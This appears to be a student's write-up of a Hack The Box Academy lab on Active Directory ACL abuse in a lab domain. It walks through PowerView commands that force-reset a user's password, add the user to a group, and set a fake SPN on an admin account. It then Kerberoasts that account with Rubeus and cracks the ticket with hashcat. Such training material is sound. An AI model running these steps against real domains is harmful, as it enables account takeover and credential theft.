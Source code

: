 # 🦘 Abuse Tactics

Here we are going to have to&#x20;

1. Use the `wley` user to change the password for the `damundsen` user
2. Authenticate as the `damundsen` user and leverage `GenericAll` rights to add a user that we control to the `Help Desk Level 1` group
3. Take advantage of nested group membership in the `Information Technology` group and leverage `GenericAll` rights to take control of the `adunn` user

So, first, we must authenticate as `wley` and force change the password of the user `damundsen`. We can start by opening a PowerShell console and authenticating as the `wley` user. Otherwise, we could skip this step if we were already running as this user. To do this, we can create a [PSCredential object](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0).

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

Now we can create our password for user damundsen ->

```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Finally, we'll use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView function to change the user's password. We need to use the `-Credential` flag with the credential object we created for the `wley` user. It's best to always specify the `-Verbose` flag to get feedback on the command (We could do this from a Linux attack host using a tool such as `pth-net`, which is part of the [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit).)

```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

Now we can authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group.

Let's first check if we are not part of this group already with this command ->

```powershell-session
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

Then add ourself ->

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

We can check if the command was successfull with the following command ->

```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over the `adunn` user. Now, let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.

We must be authenticated as a member of the `Information Technology` group for this to be successful. Since we added `damundsen` to the `Help Desk Level 1` group, we inherited rights via nested group membership. We can now use [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) to create the fake SPN. We could use the tool [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

**Creating a Fake SPN**

```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

If it works we could Kerberoast the user  ->

```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap

<SNIP>
[*] Hash                   : $krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$ <SNIP>
```

We can go on the academy lesson if we wanted to do cleanup and remediation.

***

_**Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.**_

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can see that the user alreadu exists in this group and just to be sure we can ->

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can create a fake SPN and kerberaost the account ->

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then we can take the ticket on our local machine and try to crack it with hashcat ->

```
hashcat -m 13100 krbhash.txt /usr/share/wordlists/rockyou.txt.gz
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
